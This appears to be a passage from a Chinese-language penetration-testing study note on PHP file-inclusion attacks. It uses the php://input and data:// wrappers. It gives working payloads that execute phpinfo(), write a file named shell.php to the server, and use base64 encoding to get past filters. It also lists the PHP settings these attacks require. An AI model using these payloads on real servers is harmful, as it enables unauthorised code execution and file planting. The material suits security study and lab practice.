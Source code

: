 执行phpinfo,使用hackbar改成Raw模式,否则不成功

```
php://input
POST请求
data：<?php phpinfo();?>
```

![image-20240424224559638](D:\Infiltration\笔记\note\图片\image-20240424224559638.png)



文件写入

```
php://input
POST请求
data: <?php fputs(fopen('shell.php','w'),'<?php phpinfo(); ?>'); ?>
```



![image-20240425093809919](D:\Infiltration\笔记\note\图片\image-20240425093809919.png)

访问shell.php

![image-20240425093901094](D:\Infiltration\笔记\note\图片\image-20240425093901094.png)



#### data://

协议必须双在on才能正常使用；

allow_url_fopen ：on

allow_url_include：on



代码执行

```
data://text/plain;<?php phpinfo();?>
```

![image-20240425110046501](D:\Infiltration\笔记\note\图片\image-20240425110046501.png)



Base64在进行解码的时候，是4个字符一组进行解码，因此在使用base64编码绕过该限制的时候，需要自己补一些填充符，让前面需要绕过的字符串组合起来长度是4的倍数

```
data://text/plain,base64,PD9waHAgcGhwaW5mbygpOyA
```

![image-20240425111619456](D:\Infiltration\笔记\note\图片\image-20240425111619456.png)







```
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOz8%2b
```

